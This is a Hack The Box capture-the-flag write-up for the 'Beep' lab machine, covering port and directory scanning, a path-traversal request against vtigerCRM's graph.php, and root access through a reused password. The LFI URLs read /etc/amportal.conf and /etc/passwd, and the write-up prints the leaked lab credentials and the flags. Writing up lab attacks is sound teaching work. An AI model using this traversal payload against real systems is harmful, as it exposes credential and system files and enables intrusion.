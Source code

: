 
# 🧪 Machine Name: `Beep`

**Platform:** Hack The Box  
**IP Address:** `10.10.10.7`  
**Difficulty:** Easy Linux  

---

## 🧭 Overview

Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- 10.10.10.7 --min-rate 10000
```

```bash
nmap 10.10.10.7 -sCV -oN nmapscan
```

- Many ports open, including **80/443** (web), **3306** (MySQL), **10000** (Webmin), and **5038** (Asterisk).
- Port 443 shows an Elastix login page.

---

## 🕵️ Web Enumeration

- Browsing `http://10.10.10.7` initially failed → forced TLS 1.0 allowed the page to load (Elastix login).
- Ran **dirsearch** to enumerate directories:

```bash
dirsearch -u http://beep.htb
```

- Interesting hit: `/mailman/listinfo` → exposed Mailman group mismatch.

---

## 🎯 Foothold

### LFI Exploit

Found public exploit: [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637) → **LFI via vtigerCRM graph.php**

Tested:

```bash
https://beep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

✅ Dumped `/etc/amportal.conf` → **DB creds + manager creds**:

```text
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
AMPMGRUSER=admin
AMPMGRPASS=jEhdIekWmdjE
ARI_ADMIN_USERNAME=admin
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

Then verified wider LFI:

```bash
https://beep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

✅ Dumped `/etc/passwd` → confirmed users:

- `asterisk`
- `fanis`
- `root`

---

## 🚀 Privilege Escalation

- Tried credential reuse over SSH:

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa -oKexAlgorithms=+diffie-hellman-group14-sha1 root@beep.htb
```

✅ Root password was reused: `jEhdIekWmdjE`

```bash
[root@beep ~]# cat root.txt
083a385faea1a955f2550020bfd4ccc0
```

User flag:

```bash
[root@beep ~]# cat /home/fanis/user.txt
3196a67aeb4ad47494efdff2a8fe1aed
```

---

## 🧠 Lessons Learned

- Old HTB boxes may require **legacy SSH algorithms** (important to remember this command):

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa -oKexAlgorithms=+diffie-hellman-group14-sha1 user@target
```

- LFI → config file → credential reuse is a common and effective path.
- Beep has many distracting services — stay focused on high-value targets (Web → LFI → root).

---

*Writeup by inksec*  
GitHub: [https://github.com/inkedqt](https://github.com/inkedqt)

---

### Featured Writeups Snippet

```markdown
- Beep: Nmap → LFI in vtigerCRM → /etc/amportal.conf loot → SSH legacy algorithms → Root via re-used password
```

